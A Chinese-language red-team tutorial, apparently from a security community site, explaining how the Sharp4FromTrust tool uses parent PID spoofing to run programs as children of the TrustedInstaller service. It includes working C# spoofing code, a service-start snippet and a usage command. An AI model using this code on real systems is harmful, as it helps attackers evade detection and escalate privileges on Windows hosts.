

# Sharp4FromTrust：一种借助 TrustedInstaller 服务，实现 SYSTEM 权限的隐匿执行的工具-先知社区

> **来源**: https://xz.aliyun.com/news/17800  
> **文章ID**: 17800

---

在渗透测试和高级对抗技术中， **父进程欺骗**就是一种经典的进程伪装手段，能够使恶意进程在被监控时看起来是由合法的系统进程，比如 由 TrustedInstaller.exe 或 explorer.exe 启动，从而绕过基于行为的安全检测与防御系统。

## 0x01 TrustedInstaller服务

TrustedInstaller 是 Windows Update 和其他系统文件更改操作的核心服务，文件路径位于：C:\Windows\servicing\TrustedInstaller.exe，在 Windows 系统中，例如 System32 目录下的 DLL、驱动、注册表项都归 TrustedInstaller 所有。

​

该服务权限级别高于 Administrator 或 SYSTEM， 即便某些进程是获得 SYSTEM 权限，仍会遇到权限不足的提示，只有在 TrustedInstaller 安全上下文中运行的进程，才有资格访问或修改这些资源。

​

比如，常见的 cmd.exe 便是一个以 NT SERVICE\TrustedInstaller 权限运行的文件，可以通过 PowerShell 命令进行查询，具体如下所示。

​

```
Get-Acl "C:\Windows\System32\cmd.exe" | Format-List
```

​


图上输出的 Owner 字段的值为：NT SERVICE\TrustedInstaller。

## 0x02 父进程欺骗技术

父进程欺骗技术，英文全称 Parent PID Spoofing， 通常指的是创建一个新的进程时，手动指定其父进程为另一个进程，一般是具有更高权限的系统服务，以此达到逃避安全产品监控或者继承高权限的令牌。

​

攻击者可以通过伪造父进程的操作，从而以高权限服务 TrustedInstaller 伪装启动自己的恶意命令，这也是当前红队渗透中较为隐蔽又高效的手段之一，具体代码如下所示。

​

```
public static void Run(int parentProcessId, string binaryPath)

		{

			IamYourDaddy.PROCESS_INFORMATION pInfo = default(IamYourDaddy.PROCESS_INFORMATION);

			IamYourDaddy.STARTUPINFOEX siEx = default(IamYourDaddy.STARTUPINFOEX);

			IntPtr lpValueProc = IntPtr.Zero;

			IntPtr zero = IntPtr.Zero;

			IntPtr lpSize = IntPtr.Zero;

			IamYourDaddy.InitializeProcThreadAttributeList(IntPtr.Zero, 1, 0, ref lpSize);

			siEx.lpAttributeList = Marshal.AllocHGlobal(lpSize);

			IamYourDaddy.InitializeProcThreadAttributeList(siEx.lpAttributeList, 1, 0, ref lpSize);

			IntPtr parentHandle = IamYourDaddy.OpenProcess(IamYourDaddy.ProcessAccessFlags.DuplicateHandle | IamYourDaddy.ProcessAccessFlags.CreateProcess, false, parentProcessId);

			lpValueProc = Marshal.AllocHGlobal(IntPtr.Size);

			Marshal.WriteIntPtr(lpValueProc, parentHandle);

			IamYourDaddy.UpdateProcThreadAttribute(siEx.lpAttributeList, 0U, (IntPtr)131072, lpValueProc, (IntPtr)IntPtr.Size, IntPtr.Zero, IntPtr.Zero);

			IamYourDaddy.SECURITY_ATTRIBUTES ps = default(IamYourDaddy.SECURITY_ATTRIBUTES);

			IamYourDaddy.SECURITY_ATTRIBUTES ts = default(IamYourDaddy.SECURITY_ATTRIBUTES);

			ps.nLength = Marshal.SizeOf(ps);

			ts.nLength = Marshal.SizeOf(ts);

			IamYourDaddy.CreateProcess(null, binaryPath, ref ps, ref ts, true, 524304U, IntPtr.Zero, null, ref siEx, out pInfo);

			pInfo.dwProcessId.ToString();

		}
```

此函数的第一个参数 parentProcessId ，可通过 Process.GetProcessesByName("TrustedInstaller")[0].Id 获得 TrustedInstaller 进程的 PID。

​

第二个参数 binaryPath 可以指定为 cmd.exe进程，启动这段代码后，查看 cmd.exe 进程的 父进程 应该是 TrustedInstaller.exe ，如下图所示。

​


下面逐行拆解如上所述的代码逻辑，理解每一处背后的原理，首先初始化结构体，注意：此处使用 STARTUPINFOEX，而不是 STARTUPINFO，这一点非常关键，STARTUPINFOEX 是 STARTUPINFO 的扩展版本，专门用于支持设置父进程的启动配置等高级特性。

​

```
IamYourDaddy.PROCESS_INFORMATION pInfo = default(IamYourDaddy.PROCESS_INFORMATION);

IamYourDaddy.STARTUPINFOEX siEx = default(IamYourDaddy.STARTUPINFOEX);
```

接着，传入了目标进程，此处为高权限服务 TrustedInstaller.exe 进程的 ID，明确作为新的父进程句柄使用，具体代码如下所示。

​

```
IntPtr parentHandle = IamYourDaddy.OpenProcess(IamYourDaddy.ProcessAccessFlags.DuplicateHandle | IamYourDaddy.ProcessAccessFlags.CreateProcess, false, parentProcessId);
```

这里调用 WinAPI OpenProcess 打开目标父进程TrustedInstaller的句柄，并要求给予两个权限：DuplicateHandle、CreateProcess，分别表示 复制句柄的权限和允许创建进程。

​

随后，此处有个关键的代码配置是 PROC\_THREAD\_ATTRIBUTE\_PARENT\_PROCESS ，它的值为 131072，转换成十六进制便是 0x00020000，具体代码如下所示。

​

```
IamYourDaddy.UpdateProcThreadAttribute(siEx.lpAttributeList, 0U, (IntPtr)131072, lpValueProc, (IntPtr)IntPtr.Size, IntPtr.Zero, IntPtr.Zero);
```

这个属性正是 Win32 API 中表示父进程的特殊标识，用来告诉 CreateProcess，用指定的进程作为新的父进程，详细见如下微软官方文档。

​


最后，启动 TrustedInstaller 的服务，在.NET平台下通过 ServiceController 启动Windows系统相关服务。 ServiceController 是 .NET Framework 中 System.ServiceProcess 命名空间下的类，用于管理 Windows 服务，包括启动、停止、暂停、恢复服务等操作。

​

比如， 通过 .NET 代码创建一个 ServiceController 对象，目标是控制名为 TrustedInstaller 的服务，注意：这个是服务名而不是显示名，可以在注册表或服务管理器中查看，具体应用代码如下所示。

​

```
ServiceController sc = new ServiceController
{
    ServiceName = "TrustedInstaller"
};
if (sc.Status != ServiceControllerStatus.Running)
{
    sc.Start(); 
}
```

​

上述代码，检查该服务的当前状态是否为 Running。如果不是，就调用 Start() 方法尝试启动服务。该过程背后调用的是 Windows 的服务管理 API 。

​

## 0x03 编码实现

Sharp4FromTrust.exe 便是这样一款实用工具 ，它能够在 SYSTEM 权限下，让任意可执行文件以 TrustedInstaller 服务的子进程运行，进而进一步绕过或突破系统保护限制，基本命令用法如下所示。

```
Sharp4FromTrust.exe "C:\Windows\System32\cmd.exe"
```

​

这个过程，Sharp4FromTrust 启动 Windows Modules Installer 服务，并调用其进程 PID，使用父子进程劫持技术将目标程序注入为该服务的子进程，从而实现以 TrustedInstaller 权限运行的目标进程，如下图所示。

​



综上，Sharp4FromTrust.exe 是一款极具实用价值的权限提升工具，适用于已经获得 SYSTEM 权限后进一步突破系统限制。通过劫持 TrustedInstaller 进程上下文，攻击者可执行原本被禁止的高权限操作。
